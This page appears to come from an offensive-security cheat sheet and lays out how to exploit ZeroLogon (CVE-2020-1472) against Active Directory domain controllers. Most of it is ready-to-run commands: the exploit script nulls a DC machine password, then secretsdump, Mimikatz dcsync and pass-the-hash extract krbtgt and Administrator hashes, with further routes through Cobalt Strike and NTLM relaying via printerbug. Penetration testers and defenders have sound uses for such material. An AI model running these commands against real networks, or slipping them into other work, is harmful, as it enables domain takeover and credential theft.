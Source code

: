 # ZeroLogon

> CVE-2020-1472

**Exploitation**:

1. Spoofing the client credential
2. Disabling signing and sealing
3. Spoofing a call
4. Changing a computer's AD password to null
5. From password change to domain admin
6. :warning: reset the computer's AD password in a proper way to avoid any Deny of Service

**Tools**:

* `cve-2020-1472-exploit.py` - Python script from [dirkjanm](https://github.com/dirkjanm)

```powershell
# Check (https://github.com/SecuraBV/CVE-2020-1472)
proxychains python3 zerologon_tester.py DC01 172.16.1.5

$ git clone https://github.com/dirkjanm/CVE-2020-1472.git

# Activate a virtual env to install impacket
$ python3 -m venv venv
$ source venv/bin/activate
$ pip3 install .

# Exploit the CVE (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
proxychains python3 cve-2020-1472-exploit.py DC01 172.16.1.5

# Find the old NT hash of the DC
proxychains secretsdump.py -history -just-dc-user 'DC01$' -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'CORP/DC01$@DC01.CORP.LOCAL'

# Restore password from secretsdump 
# secretsdump will automatically dump the plaintext machine password (hex encoded) 
# when dumping the local registry secrets on the newest version
python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
deactivate
```

* `nccfsas` - .NET binary for Cobalt Strike's execute-assembly

```powershell
git clone https://github.com/nccgroup/nccfsas
# Check
execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local

# Resetting the machine account password
execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset

# Testing from a non Domain-joined machine
execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch

# Now reset the password back
```

* `Mimikatz` - 2.2.0 20200917 Post-Zerologon

```powershell
privilege::debug
# Check for the CVE
lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$

# Exploit the CVE and set the computer account's password to ""
lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit

# Execute dcsync to extract some hashes
lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm

# Pass The Hash with the extracted Domain Admin hash
sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN

# Use IP address instead of FQDN to force NTLM with Windows APIs 
# Reset password to Waza1234/Waza1234/Waza1234/
# https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
lsadump::postzerologon /target:10.10.10.10 /account:DC01$
```

* `netexec` - only check

```powershell
netexec smb 10.10.10.10 -u username -p password -d domain -M zerologon
```
  
A 2nd approach to exploit zerologon is done by relaying authentication.

This technique, [found by dirkjanm](https://dirkjanm.io/a-different-way-of-abusing-zerologon), requires more prerequisites but has the advantage of having no impact on service continuity.
The following prerequisites are needed:

* A domain account
* One DC running the `PrintSpooler` service
* Another DC vulnerable to zerologon

* `ntlmrelayx` - from Impacket and any tool such as [`printerbug.py`](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```powershell
# Check if one DC is running the PrintSpooler service
rpcdump.py 10.10.10.10 | grep -A 6 "spoolsv"

# Setup ntlmrelay in one shell
ntlmrelayx.py -t dcsync://DC01.LAB.LOCAL -smb2support

#Trigger printerbug in 2nd shell
python3 printerbug.py 'LAB.LOCAL'/joe:Password123@10.10.10.10 10.10.10.12
```

## References

* [Zerologon:Unauthenticated domain controller compromise by subverting Netlogon cryptography (CVE-2020-1472) - Tom Tervoort - September 15, 2020](https://web.archive.org/web/20200915011856/https://www.secura.com/pathtoimg.php?id=2055)
